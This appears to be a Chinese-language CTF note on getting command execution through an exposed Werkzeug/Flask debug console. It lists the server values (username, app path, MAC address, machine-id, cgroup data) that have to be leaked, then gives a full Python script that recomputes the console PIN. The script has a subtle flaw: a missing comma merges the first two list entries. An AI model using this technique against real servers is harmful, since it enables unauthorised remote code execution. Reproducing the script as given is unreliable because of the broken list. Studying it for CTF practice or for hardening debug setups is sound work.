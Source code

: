 tags:: CTF/RCE, werkzeug

- https://ctf.anzu.link/pages/204626/
- # 原理
	- 读取到某些敏感信息后，利用敏感信息算出和受害者同样的PIN, 然后使用PIN控制flask执行命令
	- 有时没开debug模式，也可以通过`/console`看到终端
	- 貌似对werkzeug通用
- # PIN生成方法
	- PIN生成代码在`/home/user/.local/lib/python3.10/site-packages/werkzeug/debug/__init__.py`这个文件内
	- 需要获取到`probably_public_bits`和`private_bits`两个数组内的内容
	- `probably_public_bits`
		- `[0]`: 用户名
		- `[1]`: modname, 不魔改的话就是`flask.app`
		- `[2]`: `getattr(app, '__name__', getattr(app.__class__, '__name__'))`的运行结果，一般是`Flask`
		- `[3]`: app类的存储目录
			- 类似于`/home/user/.local/lib/python3.10/site-packages/flask/app.py`
	- `private_bits`
		- `[0]`: 十进制表示的服务器MAC
			- 可以用`int("00:16:3e:5e:6c:00".replace(":", ""), 16)`转换
			- 一般在对应网卡（如 eth0）的文件中：`/sys/class/net/eth0/address`
		- `[1]`: 基于两个文件内容生成，各个OS的生成方法不同，以下是Linux的生成方法：
			- 获取"/etc/machine-id"或"/proc/sys/kernel/random/boot_id"的内容
			- 获取/proc/self/cgroup的内容，然后按照`/`分段，获取最后一段
			- 拼接上面获得的两段bytes
- # PIN生成脚本
	- 新版flask的生成方法和老版不一样
	- ```python
	  import hashlib
	  from itertools import chain
	  
	  rv, num = None, None
	  
	  probably_public_bits = [
	      'user'# 用户名
	      'flask.app',# modname
	      'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
	      '/home/user/.local/lib/python3.10/site-packages/flask/app.py' # getattr(mod, '__file__', None),
	  ]
	  
	  private_bits = [
	      '95535655936',# str(uuid.getnode()),  /sys/class/net/ens33/address
	      '2c2781498c424bcf86b4d5aa3c0d27faapp-glib-codium-1239.scope'# /etc/machine-id的内容+/proc/self/cgroup的结尾
	  ]
	  
	  h = hashlib.sha1()
	  for bit in chain(probably_public_bits, private_bits):
	      if not bit:
	          continue
	      if isinstance(bit, str):
	          bit = bit.encode("utf-8")
	      h.update(bit)
	  h.update(b"cookiesalt")
	  
	  cookie_name = f"__wzd{h.hexdigest()[:20]}"
	  
	  if num is None:
	      h.update(b"pinsalt")
	      num = f"{int(h.hexdigest(), 16):09d}"[:9]
	  
	  if rv is None:
	      for group_size in 5, 4, 3:
	          if len(num) % group_size == 0:
	              rv = "-".join(
	                  num[x : x + group_size].rjust(group_size, "0")
	                  for x in range(0, len(num), group_size)
	              )
	              break
	      else:
	          rv = num
	  
	  print(rv)
	  
	  ```